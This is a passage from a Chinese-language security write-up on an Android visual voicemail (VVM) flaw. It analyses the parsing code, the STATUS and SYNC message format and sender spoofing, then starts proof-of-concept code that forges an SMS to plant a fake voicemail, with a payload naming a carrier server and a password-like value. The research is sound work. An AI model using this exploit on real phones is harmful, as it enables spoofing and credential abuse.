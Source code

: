 通过分析解析流程，可以知道vvm协议由//VVM:STATUS或者//VVM:SYNC开头，后面有多个字段，由“；”分号作为分割，“=”等号作为键值，通过分析StatusMessage(v4)，SyncMessage(v4)的构造函数

```
public SyncMessage(WrappedMessageData wrappedData) {
        super();
        this.mSyncTriggerEvent = wrappedData.extractString("ev");
        this.mMessageId = wrappedData.extractString("id");
        this.mMessageLength = wrappedData.extractInteger("l");
        this.mContentType = wrappedData.extractString("t");
        this.mSender = wrappedData.extractString("s");
        this.mNewMessageCount = wrappedData.extractInteger("c");
        this.mMsgTimeMillis = wrappedData.extractTime("dt");
    }
    
public StatusMessage(WrappedMessageData wrappedData) {
        super();
        this.mProvisioningStatus = wrappedData.extractString("st");
        this.mStatusReturnCode = wrappedData.extractString("rc");
        this.mSubscriptionUrl = wrappedData.extractString("rs");
        this.mServerAddress = wrappedData.extractString("srv");
        this.mTuiAccessNumber = wrappedData.extractString("tui");
        this.mClientSmsDestinationNumber = wrappedData.extractString("dn");
        this.mImapPort = wrappedData.extractString("ipt");
        this.mImapUserName = wrappedData.extractString("u");
        this.mImapPassword = wrappedData.extractString("pw");
        this.mSmtpPort = wrappedData.extractString("spt");
        this.mSmtpUserName = wrappedData.extractString("smtp_u");
        this.mSmtpPassword = wrappedData.extractString("smtp_pw");
    }
```

可以知道，程序要解析vvm协议如下：

```
//VVM:STATUS:st=xxx;rc=0;rs=xxx;srv=xxx;tui=xxx;dn=xxx;ipt=xxx;u=xxx;pw=xxx;spt=xxx;smtp_u=xxx;smtp_pw=xxx
//VVM:SYNC:ev=xxx;id=xxx;l=xxx;t=xxx;s=xxx;c=xxx;dt=xxx;srv=xxx;ipt=xxx;u=xxx;pw=xxx
```

4.根据vvm协议，构造不同的数据结构，最后根据不同的协议执行不同的流程。

5.在测试过程中，发现//VVM:SYNC可以指定来源，伪造任意号码。而如果要在进入可视化语音邮箱界面，点击播放语音时能够产生语音的下载，需要事先有//VVM:STATUS协议，这样在点击播放时才会去对应的服务器进行登录，获取数据（具体的测试本人并深入去测试，如有错误望大家指正），相关vvm协议可以参考资料[[1](https://shubs.io/breaking-international-voicemail-security-via-vvm-exploitation/)]和[[2](http://www.gsma.com/newsroom/wp-content/uploads/2012/07/OMTP_VVM_Specification_1_3.pdf)]。

**POC如下：**

构造一个短信消息结构，其中body为符合相关解析流程的//VVM协议，就可以让OmtpMessageReceiver根据外部intent承载的额外数据构造伪造的语音信箱。其中，较早版本的Android系统曾经出现过伪造短信的漏洞，直接利用那段代码[[3](http://stackoverflow.com/questions/12335642/create-pdu-for-android-that-works-with-smsmessage-createfrompdu-gsm-3gpp)]，构造短信消息可以。

```
    @Override
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        setContentView(R.layout.activity_main);
        statusButton = (Button) findViewById(R.id.status_btn);
        syncButton = (Button) findViewById(R.id.sync_btn);

        statusButton.setOnClickListener(new View.OnClickListener() {
            @Override
            public void onClick(View view) {
            	//VVM:STATUS消息
                createFakeSms(MainActivity.this, "100000", "//VVM:STATUS:st=R;rc=0;srv=vvm.tmomail.net;ipt=143;u=0000000000@vms.eng.t-mobile.com;pw=BOQ8CAzzNcu;lang=1|2|3|4;g_len=180;vs_len=10;pw_len=4-9");
```